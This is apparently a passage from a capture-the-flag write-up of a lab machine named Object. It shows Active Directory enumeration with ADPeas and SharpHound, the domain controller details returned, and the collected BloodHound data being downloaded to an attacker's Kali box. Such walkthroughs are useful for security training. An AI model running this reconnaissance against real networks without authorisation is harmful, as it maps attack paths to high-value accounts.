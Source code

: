 ```
Import-Module .\ADPeas.ps1

Invoke-ADPeas
```

Domain Controller Enumeration:

```
[*] +++++ Searching Domain Controllers +++++
Searching for Domain Controllers - Details for Computer 'JENKINS$':
sAMAccountName     : JENKINS$
dNSHostName        : jenkins.object.local
distinguishedName  : CN=JENKINS,OU=Domain Controllers,DC=object,DC=local
IPv4Address        : 10.129.103.255
operatingSystem    : Windows Server 2019 Standard
description        :
objectSid          : S-1-5-21-4088429403-1159899800-2753317549-1000
userAccountControl : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

* Transferred SharpHound.exe collector for BloodHound

Syntax for SharpHound.exe:

```
.\SharpHound.exe -c all -d object.local
```

* I had to utilize the legitimate domain name as object.htb is not the domain name, object.local is&#x20;

Transferring collector information to Kali:

* I tried numerous ways but the only way that worked turned out to be very weird, but I'm not questioning it if it worked

```
download C:\Users\oliver\Desktop\20221022065030_BloodHound.zip
```

Placed it into BloodHound and examined the information:

### BloodHound Queries

**Shortest Paths to High Value Targets:**
